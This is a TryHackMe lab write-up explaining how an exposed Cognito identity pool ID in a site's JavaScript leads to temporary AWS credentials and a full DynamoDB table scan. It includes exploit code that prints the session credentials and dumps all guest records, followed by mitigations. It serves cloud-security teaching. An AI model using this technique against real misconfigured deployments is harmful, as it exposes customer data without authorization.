



# 🏨 Complimentary — TryHackMe Write-Up

<p align="center">


</p>

---

# 📌 Challenge Overview

The **Complimentary** TryHackMe challenge demonstrates a real-world **AWS cloud security misconfiguration** where sensitive cloud resources become accessible due to improper identity and access management.

The application exposes AWS configuration details through frontend JavaScript, allowing users to obtain temporary AWS credentials and interact directly with backend services.

The challenge focuses on:

* ☁️ AWS Cloud Security
* 🔑 Identity and Access Management (IAM)
* 🪪 Cognito Identity Pools
* 🗄️ DynamoDB Security
* 🔍 Cloud Misconfiguration Discovery

---

# 📊 Challenge Information

| Attribute          | Details                        |
| ------------------ | ------------------------------ |
| Platform           | TryHackMe                      |
| Difficulty         | Easy                           |
| Category           | Cloud Security                 |
| Cloud Provider     | AWS                            |
| Services Exploited | Cognito, IAM, DynamoDB         |
| Vulnerability Type | Excessive Permissions          |
| Attack Vector      | Exposed Frontend Configuration |

---

# 🎯 Objectives

✅ Identify how AWS credentials are issued <br>
✅ Retrieve temporary AWS credentials <br>
✅ Analyse IAM permissions <br>
✅ Access DynamoDB records <br>
✅ Extract the hidden flag

---

# 🔎 Enumeration

## 🌐 Target Application

```
http://complimentary-wellness-app-332173347248.s3-website-us-east-1.amazonaws.com/
```

The application is hosted using:

```
Amazon S3 Static Website Hosting
```

---

## 📂 Discovering Frontend Files

During enumeration, the JavaScript file was discovered:

```
/app.js
```

The frontend code reveals how the application communicates with AWS services.

<details>
<summary>📸 Screenshot - Enumeration</summary>



</details>

---

# 🧠 Vulnerability Analysis

## 📄 Exposed AWS Configuration

Inside `app.js`:

```javascript
const IDENTITY_POOL_ID = "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688";
const AWS_REGION = "us-east-1";
const TABLE_NAME = "complimentary-GuestWellnessProfiles";
```

---

## 🚨 Security Issues Identified

| Issue                         | Impact                          |
| ----------------------------- | ------------------------------- |
| Exposed Cognito Identity Pool | Allows credential generation    |
| Public AWS credentials        | Enables cloud resource access   |
| Excessive IAM permissions     | Allows unauthorized data access |
| Direct DynamoDB access        | Bypasses application security   |

---

# 🔄 Attack Flow

```
User
 |
 ▼
S3 Hosted Website
 |
 ▼
Exposed JavaScript
 |
 ▼
Cognito Identity Pool
 |
 ▼
Temporary AWS Credentials
 |
 ▼
IAM Role Permissions
 |
 ▼
DynamoDB Table
 |
 ▼
Sensitive Guest Records
 |
 ▼
Flag
```

---

# 💥 Exploitation

## 1️⃣ Retrieve AWS Credentials

<details>
<summary>▶️ Click to view exploit code</summary>

```javascript
AWS.config.credentials.get(function (err) {

  if (err) {
    console.error(err);
    return;
  }

  console.log(
    AWS.config.credentials.accessKeyId
  );

  console.log(
    AWS.config.credentials.secretAccessKey
  );

  console.log(
    AWS.config.credentials.sessionToken
  );

});
```

</details>

---

## 2️⃣ Enumerate DynamoDB Records

The application uses:

```javascript
getItem()
```

which retrieves only a single record.

By changing it to:

```javascript
scan()
```

we can enumerate the complete table.

<details>
<summary>▶️ Click to view DynamoDB scan code</summary>

```javascript
AWS.config.credentials.get(function (err) {

  if (err) {
    console.error(err);
    return;
  }

  const dynamodb =
    new AWS.DynamoDB({
      region: "us-east-1"
    });


  dynamodb.scan(
    {
      TableName:
      "complimentary-GuestWellnessProfiles"
    },

    function(err,data){

      if(err){
        console.error(err);
        return;
      }

      console.log(data.Items);

    }
  );

});
```

</details>

---

## 🔧 Exploit Modification

| Original            | Modified          |
| ------------------- | ----------------- |
| `getItem()`         | `scan()`          |
| Single guest record | All guest records |
| Requires `guest_id` | No key required   |
| Displays dashboard  | Prints data       |

---

<details>
<summary>📸 Screenshot - Retrieved Records</summary>



</details>

---

# 🚩 Flag Retrieval

Review the returned DynamoDB records.

One guest profile contains the hidden flag.

<details>
<summary>📸 Screenshot - Flag</summary>



</details>

---

# 🛡️ Security Impact

## Severity: 🔴 High

An attacker could:

* Access unauthorized customer records
* Extract sensitive information
* Abuse AWS resources
* Perform further cloud attacks

---

# 📚 Lessons Learned

✅ Never expose cloud configuration secrets in frontend code

✅ Cognito Identity Pools require strict IAM controls

✅ Client-side security controls can be bypassed

✅ AWS permissions must follow least privilege

✅ Direct database access from frontend applications should be avoided

---

# 🔐 Recommended Mitigations

* Apply least privilege IAM policies
* Remove unnecessary DynamoDB permissions
* Avoid direct frontend-to-database communication
* Use API Gateway + Lambda for backend access
* Implement authentication and authorization controls
* Monitor AWS CloudTrail activity

---

# 🧰 Tools Used

<p>


</p>

---

# 🧠 Key Takeaway

> ☁️ **A cloud environment is only as secure as its IAM configuration.**

Exposed frontend code combined with excessive AWS permissions can result in complete data exposure.

---

# 👨‍💻 Author

**Sudharsan Chandran**

**Cybersecurity Engineer | Offensive Security | Detection Engineering | Security Automation**

---

⭐ If you found this write-up useful, consider giving the repository a star.
